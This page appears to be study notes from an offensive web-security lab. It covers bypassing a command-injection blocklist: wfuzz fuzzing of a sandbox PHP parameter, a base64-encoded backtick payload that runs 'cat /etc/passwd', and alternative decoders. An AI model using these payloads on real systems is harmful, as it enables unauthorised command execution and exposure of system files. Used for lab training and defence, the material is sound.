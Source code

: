 ```yaml
---
title: Bypass Blacklist
layout: default
parent: OS Command Injection
has_children: false
nav_order: 2
---
```


<h2>Enumerate Blocklist:</h2>

1. First use wfuzz to fuzz the parameter:
`wfuzz -c -z file,/home/kali/oswa/commandinjection/command_injection_custom.txt --hc 404 http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1FUZZ`

2. Hide the response length of failed ones using `--hh`:
`wfuzz -c -z file,/home/kali/oswa/commandinjection/command_injection_custom.txt --hc 404 --hh 1156 http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1FUZZ`

3. Repeat step 2 until you see one that works.


<h2>Base64 Encode: (need backtick <code>`</code>)</h2>

1. Run this on our attacker machine first:
`echo "cat /etc/passwd" | base64`

2. Use the base64 encoded as the payload:
<code>;`echo%20%22Y2F0IC9ldGMvcGFzc3dkCg==%22%20|base64%20-d`</code>

3. Alternatively if `base64` binary is not available:
<code>`echo -n "d2hvYW1p" | openssl base64 -d -A`</code>
<code>`echo -n "d2hvYW1p" | python3 -m base64 -d`</code>
<code>`echo -n "d2hvYW1p" | perl -MMIME::Base64 -ne 'print decode_base64($_)'`</code>